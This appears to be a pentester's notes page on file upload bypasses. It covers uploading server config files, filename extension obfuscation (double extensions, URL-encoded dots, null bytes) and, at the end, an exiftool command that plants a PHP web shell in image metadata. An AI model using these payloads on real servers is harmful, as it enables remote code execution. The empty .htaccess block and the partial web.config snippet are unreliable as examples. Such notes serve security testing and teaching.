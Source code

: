 # File Uploads

If a server configuration blocks execution of scripts in an upload directory, we can maybe bypass that by uploading our own config file.
> Apache: `.htaccess`
```

```

> ISS server: `web.config`
```
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>
```

<br>

# Obfuscation of extensions: (Copied from Portswigger)
1. Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or JPG image: `exploit.php.jpg`
2. Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
3. Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
4. Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
5. Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to x2E if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
6. `exploit.p.phphp`

# Embed php in valid image:
`exiftool -Comment="<?php system(\$_GET['cmd']); ?>" image.jpg`